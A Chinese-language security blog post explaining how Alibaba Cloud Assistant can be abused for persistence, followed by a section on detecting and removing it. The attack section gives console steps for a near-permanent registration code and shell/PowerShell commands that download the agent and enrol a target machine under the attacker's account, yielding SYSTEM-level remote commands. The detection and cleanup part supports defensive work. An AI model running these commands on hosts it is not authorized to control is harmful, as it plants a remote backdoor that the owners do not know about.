# 022-Ali云助手权限维持


## Ali云助手权限维持

## 简介

**云助手**是专为云服务器 ECS 打造的原生自动化运维工具，通过免密码、免登录、无需使用跳板机的形式，在 ECS 实例上实现批量运维、执行命令（Shell、PowerShell、Bat等）和发送文件等操作。

典型的使用场景包括：安装卸载软件、启动或停止服务、分发配置文件和执行一般的命令（或脚本）等。

但实际上也可以针对终端主机进行远程运维，因此可以用于实现权限维持。

&gt; 官方文档：
&gt;
&gt; https://help.aliyun.com/zh/ecs/user-guide/overview-10

## 利用

1、打开阿里云控制台，依次找到 产品与服务 -&gt; 云服务器 ECS -&gt; 运维与监控 -&gt; 发送命令/文件（云助手） -&gt; 托管实例 -&gt; 创建注册码：



2、输入配置信息，包括如下内容：

- 实例名称前缀

  默认的实例名称。默认使用 hostname 作为实例名称。 若设置，则使用该注册码所注册的实例，将使用该名称作为前辍生成有序的实例名； 也可以在注册时指定新的实例名称以覆盖此默认值。

  只可包含特殊字符中的点号（.）、下划线（_）、连字符（-）和半角冒号（:）

- 来源IP限制：

  待注册的主机的访问互联网时的公网IP或IP范围，支持 IPv4、IPv6和CIDR地址段。

  仅在主机注册阶段进行校验。

- 激活数额度：

  注册码可激活的实例数，即此注册码最多可用于注册的次数。默认值10，最多可支持1000台。

- 有效期：

  注册码的有效期，默认4小时，可选范围 1～876576小时（约100年，半永久:laughing:  ）。

  超出有效期后，该注册码不可用于注册新的主机。

3、点击生成注册码

当生成注册码后，会在下方显示实例注册的命令脚本内容。该注册码内容只显示一次，因此需要保存此注册码唯一ID与内容。

支持Linux 和Windows :

**Linux(.rpm)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.rpm
sudo rpm -ivh aliyun_assist_latest.rpm --force 
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxL47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxxD244E7&#34;
```

**Linux(.deb)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.deb
sudo dpkg -i aliyun_assist_latest.deb
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxx47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxx3D244E7&#34;
```

**Windows**

```powershell
Invoke-WebRequest -Uri `
&#39;https://aliyun-client-assist.oss-accelerate.aliyuncs.com/windows/aliyun_agent_latest_setup.exe&#39; `
-OutFile &#39;C:\\aliyun_agent_latest_setup.exe&#39;
&amp;&#34;C:\\aliyun_agent_latest_setup.exe&#34; &#39;/S&#39; &#39;--register&#39; `
&#39;--RegionId=&#34;cn-hangzhou&#34;&#39; &#39;--ActivationCode=&#34;a-hz012xxxxvttL47fD/f&#34;&#39; `
&#39;--ActivationId=&#34;1DA9xxxxx244E7&#34;&#39;
```

生成的注册码中的关键参数就是 ActivationId值 和 ActivationCode值，Id和Code互相相互对应，可点击 “注册新实例” 处，查看过去建立生成的 ActivationId 值，但 ActivationCode值不可查。






使用阿里云给出的命令下载云助手agent，可能会出现权限不足的情况，需要将文件输出在当前用户可写的路径下。



第一段命令为下载云助手Agent，需要等待一段时间，也可以通过其他方式投递。

第二段命令为云助手Agent注册上线ECS云助手控制端。

在目标机器上运行相应脚本，执行完之后需要刷新或者重新打开一个标签页，即可展示结果：



执行命令相当于创建一个脚本，依次去执行；

远程登录即类似ECS，开启一个Web形式的终端



可以看到登录后即为system权限。


目前发现一些问题：

1. 云助手Agent执行时有 UAC认证；
2. Powershell执行命令下载文件时，需要等待。
3. 在Windows Arm上会被识别为Ubuntu
4. 只适合命令控制，传输文件大小有限制，上传的文件原始大小不大于24KB，且经过Base64编码后的文件不能大于32KB。因此更适合与命令控制和权限维持。
5. 一条命令中，自定义参数的个数不能超过20个


## 排查

**云助手Agent**：

运行云助手后，Windows系统上会有一个 aliyun_agent的进程和一个AliyunService服务，该进程服务会开机自启。





**云助手守护进程：**

本地结束该进程后，远程连接即可终端。未发现进程保护等动作。





查了文档发现其实有守护进程，只是目前仅支持Linux操作系统。

云助手守护进程，用于监控云助手Agent的资源消耗情况，上报云助手Agent的运行状态，以及当云助手Agent崩溃时重启云助手Agent。

- 服务名称：`AssistDaemon`
- 路径：`/usr/local/share/assist-daemon/assist_daemon`

**任务执行路径：**

云助手会将用户的命令内容以文件形式先保存到实例上，然后再执行文件，具体保存路径如下：

- Linux：/tmp

- Windows：云助手安装路径/work/script

**通信流量：**

本地Agent上线后会先对域名进行解析，根据命令行中`--RegionId=&#34;cn-hangzhou&#34;`的键值，会寻找相应的节点，这里就是`cn-hangzhou.axt.aliyuncs.com`。



从TLS协议握手过程可以看到Server Name为`cn-hangzhou.axt.aliyuncs.com`，接下去所走的流量都是TLS加密流量。




## 特征：

1. 检测阿里云助手官方程序，确认是否本人安装
2. 域名：aliyun-client-assist.oss-accelerate.aliyuncs.com，用于下载云助手Agent程序，可被绕过通过其他方式投递。
3. 通信流量，DNS解析记录有`*.axt.aliyuncs.com`，TLS Client Hello 证书握手时Server Name是`*.axt.aliyuncs.com`
4. 进程名：aliyun_agent，服务名：Aliyun Assist Service
5. Linux系统守护进程：AssistDaemon

天眼分析中心日志检测，SSL加密协商：`server_name: (*.axt.aliyuncs.com)`

## 处置

1. 杀进程，关闭服务
2. 删除被非法安装的Ali云助手
3. 排查其他权限维持动作并清除。
4. 增加流量侧和终端侧检测，标记md5和域名。


## 参考文章：

https://mp.weixin.qq.com/s/-JqzD_F_5CqdwZAyhEBU8g

---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/022-ali%E4%BA%91%E5%8A%A9%E6%89%8B%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/  

